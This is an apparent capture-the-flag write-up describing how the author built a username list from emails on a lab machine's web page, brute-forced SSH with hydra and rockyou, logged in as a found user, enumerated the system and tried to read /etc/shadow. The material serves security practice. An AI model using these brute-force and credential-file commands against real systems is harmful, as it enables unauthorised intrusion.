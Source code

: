 I first looked at the source but there wasn't anything of interest there.
Then i looked at the page itself, and found a lot of email accounts.
And made a user list of all of them.
From what i remember from a previous ctf that had a similar way of getting usernames was that the usernames were diffrent than displayed.
So i made this list:
```
marym
mmary 
patrickp
ppatrick
thompsont
tthompson
benedictb
bbenedict 
genniege
egennieg
michaelp
pmichael
longe
elong
adamsa
aadams
banterb
bbanter
coffeec
ccoffee
```
### Breaking in
I went to bruteforce the users with rockyou and the user their names at the same time, using `tmux`.
```
hydra -L usr.lst ssh://192.168.1.100 -P usr.lst
```
```
hydra -L usr.lst ssh://192.168.1.100 -P /usr/share/wordlists/rockyou.txt.gz
```
After some time there was a user found as well as a password:
`bbanter:bbanter`
So i went onto the machine with that user.
I did `ls -la` and only found a file called `.screenrc*`
It was executable, and i checked the contents.
In there i didn't find anything of interest.
So then i checked what was running on the machine using `ps -aux`, and again i didn't find anything of interest.
After that i went to check what other users were there.
```
bbanter@slax:~$ ls -la /home/
total 0
drwxr-xr-x  8 root    root  120 Jun 29  2007 .
drwxr-xr-x 68 root    root  240 Mar  6 16:27 ..
drwxr-x---  2 aadams  users 100 Mar  6 16:36 aadams
drwxr-x---  3 bbanter users 120 Mar  6 17:51 bbanter
drwxr-x---  2 ccoffee users  80 Jun 29  2007 ccoffee
drwx------  3 root    root   60 Jun 29  2007 ftp
```
I tried to view the directory of root and it turned out i was able to, but there wasn't anything interesting in there.
Given the fact that i could read that i tried to read `/etc/shadow`, but with no success.
